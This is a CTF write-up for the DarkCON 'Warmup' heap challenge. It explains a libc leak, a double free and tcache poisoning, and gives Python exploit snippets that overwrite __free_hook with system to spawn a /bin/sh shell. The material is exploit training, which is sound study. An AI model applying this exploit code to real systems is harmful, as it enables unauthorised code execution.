 # [DarkCON CTF] Warmup

## Info

+ 30 solves / 482 points

warm up yourself and get the flag!

## Summary

+ double free
+ tcache poisoning
+ hook overwrite

## File

+ Arch : x86-64
+ Library : dynamically linked (libc6_2.27-3ubuntu1.2_amd64)

## Checksec

+ CANARY : Enabled
+ FORTIFY : Disabled
+ NX : Enabled
+ PIE : Disabled
+ RELRO : Partial

## Description

This is simple `menu` format challenge.
In this challenge, there are 3 important functions to understand how to exploit.

+ main

Print address of _reloc.strcpy

+ create

note index : [0, 0x10)

note size : (0,0x20]

Call malloc() and gets input.

+ delete

Call free() and return without reset address.

## Exploit

**Leak libc address**

```python
p.recvuntil(": ")
strcpy = int(p.recv(14),16)
libc = strcpy - 0xb65b0
system = libc + l.symbols["system"]
free_hook = libc + l.symbols["__free_hook"]
```

The given address is the address of __strcpy_sse2, not strcpy. If you notice this point, you can get libc base address easily.

**Overwrite free_hook**

```python
delete(0)
delete(0)
create(0, 0x10, p64(free_hook))
create(1, 0x10, b"/bin/sh\x00")
create(2, 0x10, p64(system))
delete(1)
```

Since delete() does not reset address table, we can trigger double free by simply deleting same address twice. Tcache double free check does not exist because the library version is < 2.29. 

Now we can call system("/bin/sh") by overwriting free_hook to system() and call free("/bin/sh").

## Flag

+ darkCON{shrtflg}
